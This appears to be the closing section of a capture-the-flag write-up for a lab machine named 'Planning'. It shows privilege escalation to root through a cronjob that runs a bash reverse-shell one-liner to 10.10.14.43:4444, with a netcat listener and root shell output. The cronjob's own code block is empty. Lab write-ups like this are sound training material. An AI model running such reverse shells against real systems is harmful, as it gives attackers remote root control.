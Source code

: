 ### Create a new cronjob and give it this command to run.
```

```
### Set up a listener and then,
### Run it!
```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.43] from (UNKNOWN) [10.10.11.68] 49212
bash: cannot set terminal process group (1477): Inappropriate ioctl for device
bash: no job control in this shell
root@planning:/# whoami
root
```
bash -c 'exec bash -i &>/dev/tcp/10.10.14.43/4444 <&1'
```
root@planning:/# cd
cd
root@planning:~# ls
ls
root.txt
scripts
```
### Congrats!!! You pawned Planning...
## Please remember to follow my GitHub and my socials, Thanks!!!👌
 